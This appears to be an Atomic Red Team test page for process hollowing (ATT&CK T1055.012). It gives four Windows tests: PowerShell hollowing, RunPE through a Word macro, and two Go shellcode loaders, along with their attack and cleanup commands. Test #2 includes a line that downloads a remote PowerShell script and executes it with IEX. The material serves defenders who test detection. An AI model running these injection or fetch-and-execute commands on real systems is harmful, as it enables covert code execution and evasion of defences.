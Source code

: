 ```yaml
---
tags: [T1055_012, atomic_test]
filename: "[[T1055.012 - Process Injection- Process Hollowing]]"
---
```

# T1055.012 - Process Injection: Process Hollowing

## Atomic Test #1 - Process Hollowing using PowerShell
This test uses PowerShell to create a Hollow from a PE on disk with explorer as the parent.
Credit to FuzzySecurity (https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1)

**Supported Platforms:** Windows


**auto_generated_guid:** 562427b4-39ef-4e8c-af88-463a78e70b9c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow (executable that will run inside the sponsor) | string | C:&#92;Windows&#92;System32&#92;cmd.exe|
| parent_process_name | Name of the parent process | string | explorer|
| sponsor_binary_path | Path of the sponsor binary (executable that will host the binary) | string | C:&#92;Windows&#92;System32&#92;notepad.exe|
| spawnto_process_name | Name of the process to spawn | string | notepad|


#### Attack Commands: Run with `powershell`! 


```powershell
. "$PathToAtomicsFolder\T1055.012\src\Start-Hollow.ps1"
$ppid=Get-Process #{parent_process_name} | select -expand id
Start-Hollow -Sponsor "#{sponsor_binary_path}" -Hollow "#{hollow_binary_path}" -ParentPID $ppid -Verbose
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - RunPE via VBA
This module executes notepad.exe from within the WINWORD.EXE process

**Supported Platforms:** Windows


**auto_generated_guid:** 3ad4a037-1598-4136-837c-4027e4fa319b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1055.012\src\T1055.012-macrocode.txt" -officeProduct "#{ms_product}" -sub "Exploit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #3 - Process Hollowing in Go using CreateProcessW WinAPI
Creates a process in a suspended state, executes shellcode to spawn calc.exe in a child process, and then resumes the original process.
- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#createprocess)

**Supported Platforms:** Windows


**auto_generated_guid:** c8f98fe1-c89b-4c49-a7e3-d60ee4bc2f5a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow | string | C:&#92;Windows&#92;System32&#92;werfault.exe|
| hollow_process_name | Name of the process to hollow | string | werfault|


#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1055.012\bin\x64\CreateProcess.exe -program "#{hollow_binary_path}" -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
Stop-Process -Name "#{hollow_process_name}" -ErrorAction SilentlyContinue
```





<br/>
<br/>

## Atomic Test #4 - Process Hollowing in Go using CreateProcessW and CreatePipe WinAPIs (T1055.012)
Create a process in a suspended state, execute shellcode to spawn calc.exe in a child process, and then resume the original process.
This test uses the CreatePipe function to create an anonymous pipe that parent and child processes can communicate over. This anonymous pipe
allows for the retrieval of output generated from executed shellcode.
- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#createprocesswithpipe)

**Supported Platforms:** Windows


**auto_generated_guid:** 94903cc5-d462-498a-b919-b1e5ab155fee





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow | string | C:&#92;Windows&#92;System32&#92;werfault.exe|
| hollow_process_name | Name of the process to hollow | string | werfault|


#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1055.012\bin\x64\CreateProcessWithPipe.exe -program "#{hollow_binary_path}" -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
Stop-Process -Name "#{hollow_process_name}" -ErrorAction SilentlyContinue
```





<br/>
